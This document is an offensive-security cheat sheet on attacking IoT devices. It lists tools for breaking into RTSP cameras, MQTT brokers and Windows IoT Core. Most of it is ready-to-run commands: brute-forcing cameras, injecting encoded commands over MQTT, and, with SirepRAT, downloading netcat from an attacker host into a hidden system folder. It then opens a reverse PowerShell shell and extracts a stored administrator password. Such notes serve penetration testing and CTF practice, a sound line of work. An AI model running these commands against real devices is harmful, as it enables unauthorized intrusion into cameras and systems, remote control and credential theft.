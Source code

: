 # IoT

- [Resources](#resources)

## Table of Contents

- [Cameradar](#cameradar)
- [Mosquitto (MQTT)](#mosquitto-mqtt)
- [SirepRAT](#sireprat)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Cameradar | Cameradar hacks its way into RTSP videosurveillance cameras | https://github.com/Ullaakut/cameradar |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |

## Cameradar

> https://github.com/Ullaakut/cameradar

### Execution using a custom Wordlist

```shell
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST>
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST> -p <RPORT>
```

### Vendor List

- Robert Bosch GmbH
- Panasonic Corporation
- Honeywell International Inc.
- Cisco Systems, Inc.
- Sony Group Corporation
- LG Electionics Inc.
- Hikvision
- Dahua Technology
- Axis Communications AB
- Teledyne Technologies Incorporated
- Hanwha Group
- Motorola Solutions (Avigilon)
- Uniview

## Mosquitto (MQTT)

### Client Tools

```console
$ sudo apt-get install mosquitto mosquitto-clients
```

```console
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```console
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```console
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```console
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```console
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```
